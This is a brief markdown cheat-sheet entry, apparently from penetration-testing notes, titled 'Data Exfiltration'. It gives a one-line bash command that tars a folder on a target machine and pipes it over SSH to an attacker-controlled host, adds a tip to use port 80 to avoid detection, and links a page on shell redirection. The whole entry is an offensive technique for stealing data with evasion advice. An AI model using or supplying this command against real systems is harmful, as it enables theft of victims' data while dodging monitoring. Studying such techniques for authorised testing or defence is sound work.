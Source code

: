 # Data Exfiltration
##### From target, tar folder containing data and pipe to SSH.
##### Port 80 may be best, to avoid detection on port 22.
##### Process will untar file to /tmp/datafolder.
```bash
tar zcf - /tmp/datafolder | ssh <user>@<Attack IP Address> "cd /tmp; tar zxpf -"
```

### Data Exfiltration References
[BASH Shell Redirect stderr To stdout (redirect stderr to a File)](https://www.cyberciti.biz/faq/redirecting-stderr-to-stdout/)